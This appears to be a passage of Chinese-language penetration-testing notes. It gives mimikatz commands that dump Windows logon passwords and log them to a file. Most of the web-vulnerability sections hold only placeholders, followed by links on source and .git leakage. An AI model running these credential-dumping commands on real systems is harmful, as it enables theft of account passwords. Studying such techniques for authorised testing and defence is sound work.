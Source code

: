 
### 口令获取及破解

**mimikatz**

提权
`privilege::debug`

抓取密码
`sekurlsa::logonpasswords`

或
```
D:\>mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir //打印输出mimikatz
D:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt //输出到log.txt
```

---

### 域渗透

鸽

---

## web渗透
### 常见漏洞
#### 任意文件下载
鸽

#### 文件包含漏洞
鸽

#### 文件解析漏洞
鸽

#### 文件上传漏洞
鸽

#### 信息泄露漏洞
**文章**
- [谈谈源码泄露](https://blog.csdn.net/GitChat/article/details/79014538)
- [敏感文件泄露](http://www.myh0st.cn/index.php/archives/62/)

**目录遍历**
- **案例**
    - [京东商城两处任意目录遍历下载漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0214222)

**GIT 源码泄露**
- **简介**

    当在一个空目录执行 git init 时，Git 会创建一个 .git 目录。 这个目录包含所有的 Git 存储和操作的对象。 如果想备份或复制一个版本库，只需把这个目录拷贝至另一处就可以了。
